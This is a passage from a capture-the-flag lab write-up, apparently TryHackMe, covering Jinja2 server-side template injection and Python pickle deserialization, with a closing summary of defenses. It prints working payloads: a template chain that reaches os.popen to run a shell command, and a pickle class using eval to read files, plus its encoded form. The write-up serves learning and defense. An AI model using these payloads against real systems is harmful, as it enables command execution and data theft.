


### Key Takeaway

Homegrown or weak cryptography creates predictable failures. Reused short XOR keys are not secure for sensitive data.

---

## Task 3: A05 - Injection (Server-Side Template Injection)

### Challenge Overview

The web app evaluates user-controlled data in a server-side template context (Jinja2), making template expression injection possible.

Initial verification payload:

```jinja2
{{7*7}}
```

If this evaluates server-side, the template engine is executing user input.

Additional payloads used during validation:

```jinja2
{{{7*7}}}
{{config}}
```

Note: `{{7*7}}` is the working arithmetic check in Jinja2, while `{{config}}` confirms accessible server-side context.

### Practical Evidence Flow

Step 1: Confirm expression evaluation with arithmetic payload.



Step 2: Enumerate template context objects with `{{config}}`.


### Exploit Payload Used

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}
```

### How the Payload Works

- `self` gives template object context
- `__init__.__globals__` exposes global scope
- `__builtins__.__import__('os')` imports OS module
- `popen('cat flag.txt').read()` executes command and reads output

This chain escalates from template expression evaluation to command execution and file disclosure.

### Flag Obtained

**THM{SSTI_FLAG_OBTAINED}**



### Key Takeaway

SSTI can become full remote code execution when unsafe objects are reachable from template context.

---

## Task 4: A08 - Software and Data Integrity Failures (Insecure Deserialization)

### Challenge Overview

This task abuses unsafe Python `pickle` deserialization. The server accepts serialized data and reconstructs objects without strict controls.

Step 1: Confirm endpoint behavior with invalid pickle input.


### Payload Generation

```python
import pickle
import base64

class Malicious:
    def __reduce__(self):
        return (eval, ("open('flag.txt').read()",))

payload = pickle.dumps(Malicious())
encoded = base64.b64encode(payload).decode()
print(encoded)
```

Generated payload example:

```text
gASVMwAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIwXb3BlbignZmxhZy50eHQnKS5yZWFkKCmUhZRSlC4=
```

### Result

Submitting the Base64 payload causes unsafe deserialization and returns the content of `flag.txt`.

### Flag Obtained

**THM{INSECURE_DESERIALIZATION}**

### Evidence


### Key Takeaway

Never deserialize untrusted data with unsafe mechanisms like raw `pickle`. Use safe formats and strict schema validation.

---

## Final Conclusion

Across all three tasks, the same principle is reinforced:

**Never trust user input when it can be interpreted as code, template logic, or serialized executable objects.**

A secure implementation should include:

- Strong, modern cryptographic design with safe key handling
- Strict server-side input validation and safe template rendering
- Safe serialization formats with allow-list based decoding
- Defense-in-depth controls, monitoring, and secure defaults

---

## Quick Stats

- Tasks completed: 3/3
- Flags captured: 3/3
- Main skills used: crypto analysis, template injection testing, deserialization abuse detection
- Tools used: browser testing, Python scripting, payload encoding/decoding


